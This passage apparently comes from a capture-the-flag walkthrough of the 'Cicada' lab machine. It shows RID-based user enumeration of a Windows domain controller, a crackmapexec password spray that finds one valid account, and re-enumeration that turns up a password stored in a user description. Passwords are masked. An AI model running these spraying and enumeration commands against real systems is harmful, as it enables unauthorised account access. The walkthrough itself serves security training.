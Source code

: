 ```
SMB         10.10.11.35     445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.10.11.35     445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

As we can see, we find those users:
```
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

Now we can try the password we found before and see if we get any matches passing a file with all the users above.

```

crackmapexec smb 10.10.11.35 -u /home/francesco/Documents/cicada/users.txt -p '***********' --continue-on-success
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:*********** STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:*********** STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:*********** 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:*********** STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:*********** STATUS_LOGON_FAILURE 
```

We found out that micheal.wrightson match the password we got before. 
At this point we tried to re-run crackmapexec enumerating users using micheal creds:

```
crackmapexec smb 10.10.11.35 -u 'michael.wrightson' -p '***********' --users
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:***********
SMB         10.10.11.35     445    CICADA-DC        [*] Trying to dump local users with SAMRPC protocol
SMB         10.10.11.35     445    CICADA-DC        [+] Enumerated domain user(s)
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\Administrator                  Built-in account for administering the computer/domain
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\Guest                          Built-in account for guest access to the computer/domain
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\krbtgt                         Key Distribution Center Service Account
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\john.smoulder    
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\sarah.dantelia   
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\michael.wrightson
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\david.orelious                 Just in case I forget my password is ***********
SMB         10.10.11.35     445    CICADA-DC        cicada.htb\emily.oscars 
```
